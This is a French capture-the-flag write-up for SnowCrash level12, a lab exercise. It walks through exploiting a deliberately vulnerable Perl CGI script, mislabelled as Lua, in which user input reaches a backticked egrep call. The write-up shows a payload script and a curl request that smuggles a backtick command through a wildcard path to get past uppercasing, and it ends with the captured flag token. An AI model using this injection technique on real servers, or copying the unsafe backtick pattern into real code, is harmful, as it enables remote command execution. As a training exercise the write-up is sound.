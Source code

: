 On a un script en lua :
```lua
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
```
Il prend 2 arguments. Il se sert du 2ème pour faire une comparaison plus tard mais ça ne nous intéresse pas.
Le premier argument en revanche est intéressant, on voit qu'il est d'abord transformé à l'aide d'une regex qui va le mettre en majuscules et supprimer les whitespace, et surtout, on voit ensuite cette ligne :
```lua
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

`egrep` sert à évaluer l'expression (comme `/e` dans le level 06) ce qui veut dire qu'on peut s'en servir pour lui faire exécuter une commande passée dans la variable `$xx` en utilisant des backtick !

On ne peut pas lui passer directement `getflag > /tmp/flag` car il serait transformé en `GETFLAG>/TMP/FLAG` et ne fonctionnerait pas car bash est case sensitive.

On va donc créer un fichier contenant la commande qu'on veut exécuter :
```bash
#!/bin/bash

getflag > /tmp/flag
```

On n'oublie pas de lui donner les droits d'exécution :
```bash
chmod +x /tmp/PAYLOAD
```

Puis on va lui passer `'/*/PAYLOAD'` qui matchera notre script :
```bash
level12@SnowCrash:~$ curl localhost:4646?x='`/*/PAYLOAD`'
..level12@SnowCrash:~$
```
Et on récupère le flag dans /tmp/flag :
```bash
..level12@SnowCrash:~cat /tmp/flag
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr
```